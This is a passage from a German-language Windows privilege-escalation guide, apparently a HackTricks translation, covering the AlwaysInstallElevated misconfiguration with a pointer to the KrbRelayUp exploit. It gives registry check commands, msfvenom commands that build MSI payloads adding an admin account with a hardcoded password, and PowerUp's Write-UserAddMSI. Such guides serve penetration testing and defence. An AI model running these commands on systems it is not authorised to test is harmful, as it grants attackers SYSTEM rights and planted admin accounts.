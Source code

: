 Finden Sie den **Exploit in** [**https://github.com/Dec0ne/KrbRelayUp**](https://github.com/Dec0ne/KrbRelayUp)

Für weitere Informationen über den Ablauf des Angriffs überprüfen Sie [https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation/](https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation/)

## AlwaysInstallElevated

**Wenn** diese 2 Registrierungen **aktiviert** sind (Wert ist **0x1**), können Benutzer mit beliebigen Berechtigungen `*.msi`-Dateien als NT AUTHORITY\\**SYSTEM** **installieren** (ausführen).
```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
### Metasploit-Payloads
```bash
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted
```
Wenn Sie eine Meterpreter-Sitzung haben, können Sie diese Technik mit dem Modul **`exploit/windows/local/always_install_elevated`** automatisieren.

### PowerUP

Verwenden Sie den Befehl `Write-UserAddMSI` von PowerUP, um im aktuellen Verzeichnis eine Windows MSI-Binärdatei zu erstellen, um Privilegien zu eskalieren. Dieses Skript erstellt einen vorkompilierten MSI-Installer, der nach einer Benutzer-/Gruppenzusammenführung fragt (Sie benötigen also GUI-Zugriff):
```
Write-UserAddMSI
```
Just execute the created binary to escalate privileges.

### MSI Wrapper

Lesen Sie dieses Tutorial, um zu lernen, wie man einen MSI-Wrapper mit diesen Tools erstellt. Beachten Sie, dass Sie eine "**.bat**" Datei umwickeln können, wenn Sie **nur** **Befehlszeilen** **ausführen** möchten.

{% content-ref url="msi-wrapper.md" %}
[msi-wrapper.md](msi-wrapper.md)
{% endcontent-ref %}

### Create MSI with WIX

{% content-ref url="create-msi-with-wix.md" %}
[create-msi-with-wix.md](create-msi-with-wix.md)
{% endcontent-ref %}
